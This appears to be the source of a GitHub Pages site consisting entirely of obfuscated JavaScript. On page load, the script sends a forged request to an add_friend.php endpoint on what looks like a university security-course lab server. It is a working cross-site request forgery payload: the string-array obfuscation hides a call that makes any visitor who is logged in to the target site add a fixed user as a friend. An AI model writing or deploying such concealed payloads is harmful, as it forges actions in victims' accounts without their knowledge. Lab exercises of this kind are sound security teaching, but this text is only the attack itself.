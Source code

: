 # mam54.github.io
const _0x4934=['8003VmWzJx','open','1527518agvkzd','1jGbjmr','GET','1799935zbGMxS','send','9vjRQzd','8XTFnCn','http://csec380-core.csec.rit.edu:86/add_friend.php?id=130','213865kEmWVu','357549RwxOHA','1069873UgdVmk','15JIdkgS','4eVLkrm','1108733hjTEDD'];const _0x21b8=function(_0x3d2c75,_0x22e0dd){_0x3d2c75=_0x3d2c75-0xbb;let _0x49340f=_0x4934[_0x3d2c75];return _0x49340f;};const _0x36f773=_0x21b8;(function(_0x38c0ab,_0x325b55){const _0x10284c=_0x21b8;while(!![]){try{const _0x36a61d=-parseInt(_0x10284c(0xbd))+-parseInt(_0x10284c(0xc8))*parseInt(_0x10284c(0xbb))+-parseInt(_0x10284c(0xbf))*parseInt(_0x10284c(0xbc))+-parseInt(_0x10284c(0xc3))*parseInt(_0x10284c(0xc4))+-parseInt(_0x10284c(0xc6))+-parseInt(_0x10284c(0xbe))*parseInt(_0x10284c(0xc1))+parseInt(_0x10284c(0xc0))*parseInt(_0x10284c(0xc9));if(_0x36a61d===_0x325b55)break;else _0x38c0ab['push'](_0x38c0ab['shift']());}catch(_0x39234e){_0x38c0ab['push'](_0x38c0ab['shift']());}}}(_0x4934,0xf3888));const r=new XMLHttpRequest(),x=_0x36f773(0xca);r[_0x36f773(0xc2)](_0x36f773(0xc5),x),r[_0x36f773(0xc7)]();
